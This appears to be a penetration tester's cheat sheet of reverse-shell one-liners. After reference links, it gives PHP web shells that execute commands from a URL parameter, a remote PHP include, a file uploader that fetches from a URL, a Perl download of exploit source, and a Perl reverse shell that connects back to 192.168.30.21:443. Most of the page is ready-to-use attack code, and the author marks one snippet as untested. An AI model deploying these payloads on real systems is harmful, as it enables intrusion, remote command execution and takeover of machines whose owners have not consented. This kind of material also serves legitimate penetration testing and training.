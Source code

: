 # *Hacking* Reverse Shells
#web #hacking

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
http://roo7break.co.uk/?p=215
[Bernardo Dag: Reverse shells one-liners](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
[lanmaster53.com](https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
 [http://laudanum.secureideas.net/](http://laudanum.secureideas.net/)
http://pentestmonkey.net/blog/post-exploitation-without-a-tty

# Shell One-liners

```
PHP one-liners

<?php echo system($_GET['cmd']); ?>

<?php echo shell_exec($_GET['cmd']); ?>

<?php include "http://192.168.30.21/php-reverse-shell443.php"; ?>
```

This will execute $cmd in the background (no cmd window) without PHP waiting for it to finish, on both Windows and Unix.
```
<?php
function execInBackground($cmd) {
if (substr(php_uname(), 0, 7) == "Windows"){
pclose(popen("start /B ". $cmd, "r"));
}
else {
exec($cmd . " > _dev_null &");
}
}
?>
```

Short php uploader
```
<?php
try {
ini_set('allow_url_fopen', true);
$data = file_get_contents($_GET['url']);
$handle = fopen($_GET['dest'], "w");
fwrite($handle, $data);
fclose($handle);
echo 'Download succeeded';
} catch (Exception $e) {
echo 'Caught exception: ',  $e->getMessage(), "\n";
}
?>
```

Use perl when no wget
```
perl -e 'use File::Fetch; my $ff = File::Fetch->new(uri => "http://192.168.30.21/28718.c"); my $where = $ff->fetch() or die $ff->error;'
```

Need to test, but should create a reverse shell in Perl on both Linux and Windows
 # Create reverse shell in background
```
my $pid = fork;
if ($pid == 0) {
my $c=new IO::Socket::INET(PeerAddr=>"192.168.30.21:443");
STDIN->fdopen($c, 'r');
STDOUT->fdopen($c, 'w');
STDERR->fdopen($c, 'w');
while (<>) {
system($_);
}
}
```

